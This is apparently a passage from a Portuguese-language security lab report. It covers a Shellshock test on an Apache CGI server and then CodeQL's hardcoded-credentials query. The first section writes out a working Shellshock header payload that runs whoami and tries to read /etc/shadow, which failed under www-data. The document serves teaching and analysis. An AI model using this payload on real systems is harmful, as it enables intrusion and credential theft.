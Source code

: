 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{itemize}
\item \textbf{Header Name:} \texttt{Extract-Shadow}
\item \textbf{Header Value:} \texttt{() \{ :; \}; echo "Content-type: text/plain"; echo;
echo "***** cat /etc/shadow *****"; echo "\$(/bin/whoami)"; /bin/cat /etc/shadow;}
\item \textbf{Resultado:} o comando imprime o utilizador ativo (\texttt{www-data}), mas falha
a leitura com a mensagem \texttt{cat: /etc/shadow: Permission denied}.
\item \textbf{Explicação:} por aplicação do princípio do menor privilégio, o Apache e os seus
processos CGI filhos correm sob a conta sem privilégios \texttt{www-data}. Como
\texttt{/etc/shadow} tem permissões de leitura restritas ao superutilizador \texttt{root}, o
sistema operativo nega o acesso.
\end{itemize}

\newpage
\section{Parte 2 --- Análise estática com CodeQL (WebGoat / Juice Shop)}

\subsection{A.5.b --- Deteção de credenciais embutidas (HardcodedCredentials)}

\paragraph{i) \texttt{@precision}.}
O valor é \texttt{@precision low}. Indica que a query tem uma taxa elevada de falsos
positivos, ou seja, muitos dos alertas podem não ser problemas reais. Por isso, estas queries
não vêm na \textit{suite} padrão do \textit{code scanning} e os resultados precisam de revisão
manual. Os valores possíveis são \texttt{low}, \texttt{medium}, \texttt{high} e
\texttt{very-high}.

\paragraph{ii) Como decide que um campo contém uma password.}
A decisão baseia-se apenas no \textbf{nome da variável}. A query usa a classe
\texttt{PasswordVariable}, definida em \texttt{HardcodedCredentials.qll:69}:
\end{document}

